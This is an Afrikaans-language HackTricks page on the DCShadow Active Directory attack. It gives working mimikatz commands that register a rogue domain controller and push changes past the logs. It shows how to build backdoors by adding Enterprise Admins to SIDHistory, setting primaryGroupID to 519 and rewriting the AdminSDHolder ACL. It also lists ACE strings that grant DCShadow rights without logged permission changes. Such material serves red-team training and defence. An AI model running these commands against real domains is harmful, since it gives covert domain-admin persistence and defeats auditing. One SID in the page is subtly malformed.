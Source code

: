 {% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Dit registreer 'n **nuwe Domein Beheerder** in die AD en gebruik dit om **atribute** (SIDHistory, SPNs...) op gespesifiseerde voorwerpe **te druk** **sonder** om enige **logs** oor die **wysigings** te laat. Jy **het DA** regte nodig en moet binne die **worteldomein** wees.\
Let daarop dat as jy verkeerde data gebruik, sal daar baie lelike logs verskyn.

Om die aanval uit te voer, het jy 2 mimikatz instansies nodig. Een van hulle sal die RPC bedieners met SYSTEM regte begin (jy moet hier die veranderinge wat jy wil maak, aandui), en die ander instansie sal gebruik word om die waardes te druk:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Vereis DA of soortgelyk" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Let daarop dat **`elevate::token`** nie in `mimikatz1` sessie sal werk nie, aangesien dit die voorregte van die draad verhoog het, maar ons moet die **voorreg van die proses** verhoog.\
Jy kan ook 'n "LDAP" objek kies: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Jy kan die veranderinge vanaf 'n DA of vanaf 'n gebruiker met hierdie minimale regte druk:

* In die **domein objek**:
* _DS-Install-Replica_ (Voeg/Verwyder Replica in Domein)
* _DS-Replication-Manage-Topology_ (Bestuur Replika Topologie)
* _DS-Replication-Synchronize_ (Replika Sinchronisasie)
* Die **Sites objek** (en sy kinders) in die **Konfigurasie houer**:
* _CreateChild en DeleteChild_
* Die objek van die **rekenaar wat as 'n DC geregistreer is**:
* _WriteProperty_ (Nie Skryf nie)
* Die **teiken objek**:
* _WriteProperty_ (Nie Skryf nie)

Jy kan [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) gebruik om hierdie voorregte aan 'n onvoorregte gebruiker te gee (let daarop dat dit 'n paar logs sal agterlaat). Dit is baie meer beperkend as om DA voorregte te hê.\
Byvoorbeeld: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Dit beteken dat die gebruikersnaam _**student1**_ wanneer hy aan die masjien _**mcorp-student1**_ ingelog is, DCShadow voorregte oor die objek _**root1user**_ het.

## Gebruik DCShadow om agterdeure te skep

{% code title="Stel Enterprise Admins in SIDHistory na 'n gebruiker" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Verander PrimaryGroupID (sit gebruiker as lid van Domein Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Wysig ntSecurityDescriptor van AdminSDHolder (gee Volle Beheer aan 'n gebruiker)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Gee DCShadow toestemmings met behulp van DCShadow (geen gewysigde toestemmingslogs)

Ons moet die volgende ACE's by ons gebruiker se SID aan die einde voeg:

* Op die domein objek:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Op die aanvaller rekenaar objek: `(A;;WP;;;UserSID)`
* Op die teiken gebruiker objek: `(A;;WP;;;UserSID)`
* Op die Sites objek in Konfigurasie houer: `(A;CI;CCDC;;;UserSID)`

Om die huidige ACE van 'n objek te kry: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Let daarop dat jy in hierdie geval **verskeie veranderinge** moet maak, nie net een nie. So, in die **mimikatz1 sessie** (RPC bediener) gebruik die parameter **`/stack` met elke verandering** wat jy wil maak. Op hierdie manier, sal jy net een keer **`/push`** hoef te doen om al die vasgeplakte veranderinge in die rogue bediener uit te voer.

[**Meer inligting oor DCShadow in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
